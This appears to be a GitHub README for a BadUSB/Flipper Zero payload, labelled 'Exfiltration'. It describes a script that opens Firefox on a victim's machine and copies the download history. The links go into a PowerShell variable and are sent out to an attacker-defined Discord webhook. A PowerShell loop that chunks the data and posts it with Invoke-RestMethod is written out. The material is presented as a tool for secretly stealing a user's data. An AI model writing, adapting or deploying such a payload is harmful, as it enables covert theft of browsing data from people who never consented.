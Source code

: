# Exports all the links of the downloads

This script can be used to export all the links of the latest downloads made through Firefox.

[![Hits](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2Faleff-github%2Fmy-flipper-shits&count_bg=%233C3C3C&title_bg=%233C3C3C&icon=linux.svg&icon_color=%23FFFFFF&title=views&edge_flat=false)](https://github.com/aleff-github/my-flipper-shits)

**Category**: Exfiltration

<div align=center>

<img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/logo-repository-2_0.gif" width="600" /><br><img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

This script can be used to export all the links of the latest downloads made through Firefox.

This script open the Firefox app, then go to downloads page and copy all, then open a PowerShell and put all the download link in a var named $DOWNLOADS, then use a Discord Webhook to exfiltrate it.


## Dependencies

* Firefox must be installed
* Internet connection


## Settings

- You must define your Discord webhook if you want to use this method for the exfiltration

    `DEFINE DISCORD_WEBHOOK example`

- This delay depends on the number of links

    `DELAY 10000`

- This algorithm is used to avoid the size limit imposed by Invoke-RestMethod on the payload length

    ```
    $len = $DOWNLOADS.Length
        $MAX_LEN = 1900

        $ITERATIONS = [math]::Ceiling($len / $MAX_LEN)

        for ($i = 0; $i -lt $ITERATIONS; $i++) {
            $init = $i * $MAX_LEN
            $end = [math]::Min(($i + 1) * $MAX_LEN, $len)
            
            $sub = $DOWNLOADS.Substring($init, $end - $init)
            $Payload = @{content = $sub} | ConvertTo-Json

            Invoke-RestMethod -Uri $WebhookUrl -Method Post -Body $Payload -ContentType 'application/json'
        }
    ```

## Credits

<h2 align="center"> Aleff :octocat: </h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://github.com/aleff-github">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/github.png?raw=true width="48" height="48" />
      </a>
      <br>Github
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/alessandro_greco_aka_aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/instagram.png?raw=true width="48" height="48" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://www.linkedin.com/in/alessandro-greco-aka-aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/linkedin.png?raw=true width="48" height="48" />
      </a>
      <br>Linkedin
    </td>
  </tr>
</table>
</div>